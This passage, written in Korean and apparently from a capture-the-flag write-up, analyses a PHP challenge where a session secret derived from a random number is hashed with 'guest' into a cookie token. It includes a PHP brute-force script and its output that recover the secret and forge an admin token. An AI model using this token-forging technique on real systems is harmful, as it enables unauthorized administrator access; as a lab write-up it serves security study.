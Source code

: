 코드를 해석해 보면 다음과 같은 단계를 확인 할 수 있다. <br><br>
​
**1\.** $\_SESSION\['X-SECRET'\]의 값이 존재하지 않으면 gen() 을 호출해 값을 설정한다. <br><br>
​
**2\.** $\_COOKIE\['USER'\]의 값이 존재하지 않으면 $\_SESSION\['username'\] 값을 가져와 USER의 값으로 설정한다.<br><br>
​
**3\.** $\_COOKIE\['X-TOKEN'\]의 값이 존재하지 않으면 $\_SESSION\['X-SECRET'\]와 "guest"를 이어붙여 sha256로 해싱한 값을 X-TOKEN값으로 설정한다.<br><br>
​
**4\.** $\_SERVER\['HTTP\_X\_HTTP\_HOST\_OVERRIDE'\]의 값이 존재하면 해당 값을, 설정되어 있지 않으면
​$\_SERVER\['REMOTE\_ADDR'\] 의 값을 Header의 값으로 설정한다.<br>
여기서 $\_SERVER\['HTTP\_X\_HTTP\_HOST\_OVERRIDE'\]의 Header 값은 X-HTTP-HOST-OVERRIDE 가 된다.<br>
​(보통 custom Header의 경우 HTTP를 지우고 '\_' 를 '-' 로 바꾸면 된다!)
​<br><br>
가장 먼저 알아내야 할 것은 X-SECRET의 값이다. 이 값은 session값이고 session destory를 해주지 않는 한 <br>항상 같은 값으로 유지된다. 단계 3에서 X-TOKEN의 값은 COOKIE값이기 때문에 알아낼 수 있다. 따라서<br> Brute Forcing하여 X-SECRET 값을 알아낼 수 있다. 
​
```php
<?php
function breakHash(){
    $target = "c857a2119fdc6d47cafe8946d0f71e5a56ef18bbd5e6ffe2804386475fe50ba4";
    for($i = 96415042; $i <= getrandmax(); $i++){
        $X_SECRET = substr(sha1((string)$i),0,20);
        if($target === hash("sha256",$X_SECRET."guest"))
            return $X_SECRET;
        else 
            echo "try [".$i."]\n";
    }
}
​
$X_SECRET = breakHash();
echo "[+] X-SECTERT : ".$X_SECRET."\n";                      
echo "[+] X-TOKEN(admin) : ". hash("sha256", $X_SECRET."admin")."\n"; 
?>
​
/*
try [1]
.
.
.
try [96415042]
[+] X-SECTERT : 3c435a3686a22fd5c2bc
[+] X-TOKEN(admin) : e1a7dbb2624b0edc01f4bdf0d3d5e3e411ba0cd24a691509e2658d1435c2ff10
*/
```
​
위 코드로 brute forcing 해서 X-SECRET의 값과 이후 admin 검증을 위해 X-SECRET과 "admin"문자열을 붙여
<br>
sha256으로 해싱한 X-TOKEN 값도 한번에 출력했다. getrandmax() = (2 ^ 31) - 1 라 생각보다 오래 걸려 
<br>
$i 값이 0부터 시작하는 코드와 getrandmax()부터 시작하는 코드 두개를 동시에 돌렸다.
